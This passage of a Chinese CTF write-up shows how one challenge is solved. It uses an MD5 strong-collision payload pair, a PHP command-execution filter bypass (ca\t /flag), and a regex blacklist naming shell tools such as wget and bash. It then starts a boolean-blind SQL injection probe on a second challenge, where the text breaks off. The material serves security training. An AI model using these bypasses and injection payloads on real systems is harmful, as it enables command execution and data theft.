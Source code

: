 绕过点：

```php
 if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
```

md5强碰撞。

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

cmd处过滤了ls但是没过滤dir，当前目录并没有flag

用dir%20/查询根目录，发现flag。

虽然在正则处

```php
preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
```

过滤了cat，但是没有过滤\

https://blog.csdn.net/weixin_41463193/article/details/83539168

这是对php中反斜杠的讲解。

利用ca\t%20/flag读取flag。

知识点：

1.文件包含漏洞，对url处要敏感。

2.md5的强碰撞（常见）

3.对命令执行漏洞的绕过。

# [WUSTCTF2020]颜值成绩查询

题目给了提示了，查询，那跟sql脱不了干系。

输入1查询，看见url处多出了一个参数。

```
?stunum=1
```

挨个查询，没啥发现。

直接试一下bool盲注

```
stunum = if(length(database())>1,1,0)
```
